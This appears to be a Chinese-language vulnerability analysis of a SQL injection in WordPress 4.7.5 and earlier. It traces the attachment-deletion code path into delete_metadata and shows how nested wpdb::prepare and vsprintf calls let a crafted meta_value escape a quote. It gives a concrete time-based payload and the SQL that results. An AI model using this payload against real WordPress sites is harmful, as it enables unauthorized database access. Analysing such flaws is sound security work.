

# wordpress 4.75 sqli 漏洞

在wordpress版本<=4.7.5的版本中又一个sqli注入漏洞，漏洞发生在管理后台上传图片的位置，通过修改图片在数据库中的参数，以及利用php的sprintf函数的特性，在删除图片时，导致'单引号的逃逸。

在删除之前发送了两个http请求，当中有`_wpnonce`参数。



跟进`action=delete-post`，函数在wp-admin/includes/ajax-actions.php。

```php
function wp_ajax_delete_post( $action ) {
	if ( empty( $action ) )
		$action = 'delete-post';
	$id = isset( $_POST['id'] ) ? (int) $_POST['id'] : 0;

	check_ajax_referer( "{$action}_$id" );
	if ( !current_user_can( 'delete_post', $id ) )
		wp_die( -1 );

	if ( !get_post( $id ) )
		wp_die( 1 );

	if ( wp_delete_post( $id ) )
		wp_die( 1 );
	else
		wp_die( 0 );
}
```

这里有个`check_ajax_referer( "{$action}_$id" );`，跟进这个`check_ajax_referer()`。

```php
function check_ajax_referer( $action = -1, $query_arg = false, $die = true ) {
   if ( -1 == $action ) {
      _doing_it_wrong( __FUNCTION__, __( 'You should specify a nonce action to be verified by using the first parameter.' ), '4.7' );
   }

   $nonce = '';

   if ( $query_arg && isset( $_REQUEST[ $query_arg ] ) )
      $nonce = $_REQUEST[ $query_arg ];
   elseif ( isset( $_REQUEST['_ajax_nonce'] ) )
      $nonce = $_REQUEST['_ajax_nonce'];
   elseif ( isset( $_REQUEST['_wpnonce'] ) )
      $nonce = $_REQUEST['_wpnonce'];

   $result = wp_verify_nonce( $nonce, $action );
```

这里一定要获取到`_wpnonce`。得到这个参数才能进入`wp_delete_attachment( $post_id_del )` 函数， `$post_id_del`是图片的postid。

```php
case 'delete':
   if ( !isset( $post_ids ) )
      break;
   foreach ( (array) $post_ids as $post_id_del ) {
      if ( !current_user_can( 'delete_post', $post_id_del ) )
         wp_die( __( 'Sorry, you are not allowed to delete this item.' ) );

      if ( !wp_delete_attachment( $post_id_del ) )
         wp_die( __( 'Error in deleting.' ) );
   }
   $location = add_query_arg( 'deleted', count( $post_ids ), $location );
```

在post.php 4778行的wp_delete_attachement函数的地方。

```php
function wp_delete_attachment( $post_id, $force_delete = false ) {
   global $wpdb;

   if ( !$post = $wpdb->get_row( $wpdb->prepare("SELECT * FROM $wpdb->posts WHERE ID = %d", $post_id) ) )
      return $post;

   if ( 'attachment' != $post->post_type )
      return false;

   if ( !$force_delete && EMPTY_TRASH_DAYS && MEDIA_TRASH && 'trash' != $post->post_status )
      return wp_trash_post( $post_id );

   delete_post_meta($post_id, '_wp_trash_meta_status');
   delete_post_meta($post_id, '_wp_trash_meta_time');

   $meta = wp_get_attachment_metadata( $post_id );
   $backup_sizes = get_post_meta( $post->ID, '_wp_attachment_backup_sizes', true );
   $file = get_attached_file( $post_id );

   if ( is_multisite() )
      delete_transient( 'dirsize_cache' );
   do_action( 'delete_attachment', $post_id );

   wp_delete_object_term_relationships($post_id, array('category', 'post_tag'));
   wp_delete_object_term_relationships($post_id, get_object_taxonomies($post->post_type));

   delete_metadata( 'post', null, '_thumbnail_id', $post_id, true );

   wp_defer_comment_counting( true );

   $comment_ids = $wpdb->get_col( $wpdb->prepare( "SELECT comment_ID FROM $wpdb->comments WHERE comment_post_ID = %d", $post_id ));
   foreach ( $comment_ids as $comment_id ) {
      wp_delete_comment( $comment_id, true );
   }
```

 调用了delete_metadata 函数，漏洞触发点主要在wp-includes/meta.php 的 delete_metadata函数里面， 有如下代码:

```php
if ( $delete_all ) {
	$value_clause = '';
	if ( '' !== $meta_value && null !== $meta_value && false !== $meta_value ) {
		$value_clause = $wpdb->prepare( " AND meta_value = %s", $meta_value );
	}

	$object_ids = $wpdb->get_col( $wpdb->prepare( "SELECT $type_column FROM $table WHERE meta_key = %s $value_clause", $meta_key ) );
}
```

该语句执行的sql语句是下面这句，调用prepare函数把`$meta_key `传给`$s`参数位置， 但该语句存在明显的字符拼接：`$value_clause`

```php
$wpdb->prepare( "SELECT $type_column FROM $table WHERE meta_key = %s $value_clause", $meta_key )
```

我们来看下$value_clause拼接的参数：

```php
$value_clause = $wpdb->prepare( " AND meta_value = %s", $meta_value );
```

拼接的参数同样调用了prepare函数，我们来看下prepare函数:

```php
public function prepare( $query, $args ) {
	if ( is_null( $query ) )
		return;

	// This is not meant to be foolproof -- but it will catch obviously incorrect usage.
	if ( strpos( $query, '%' ) === false ) {
		_doing_it_wrong( 'wpdb::prepare', sprintf( __( 'The query argument of %s must have a placeholder.' ), 'wpdb::prepare()' ), '3.9.0' );
	}

	$args = func_get_args();
	array_shift( $args );
	// If args were passed as an array (as in vsprintf), move them up
	if ( isset( $args[0] ) && is_array($args[0]) )
		$args = $args[0];
	$query = str_replace( "'%s'", '%s', $query ); // in case someone mistakenly already singlequoted it
	$query = str_replace( '"%s"', '%s', $query ); // doublequote unquoting
	$query = preg_replace( '|(?<!%)%f|' , '%F', $query ); // Force floats to be locale unaware
	$query = preg_replace( '|(?<!%)%s|', "'%s'", $query ); // quote the strings, avoiding escaped strings like %%s
	array_walk( $args, array( $this, 'escape_by_ref' ) );
	return @vsprintf( $query, $args );
}
```

有意思的是prepare函数先把`'%s'`替换为`%s`,再把`%s` 替换为`'%s'`, 然后调用vsprintf函数格式化字符串

如果我们改变meta_value的值位`22%1$%s and sleep(3)#`

经过第一个vsprintf的处理后变成

```SQL
AND meta_value = '22%1$'%s' and sleep(3)#'
```

第一次拼接后又进入一次sprintf函数，此时的sql语句为:

```SQL
"SELECT $type_column FROM $table WHERE meta_key = %s AND meta_value = '22%1$'%s' and sleep(3)#'", $meta_key
```

经过prepare处理后的语句为:

```SQL
"SELECT $type_column FROM $table WHERE meta_key = '_thumbnail_id' AND meta_value = '22_thumbnail_id' and sleep(3)#'"
```

格式化后把`%1$'%s` 替换为`_thumbnail_id`(单引号后面的%被当作一个padding字符了，而不是占位符), 这样就逃逸出了一个单引号了。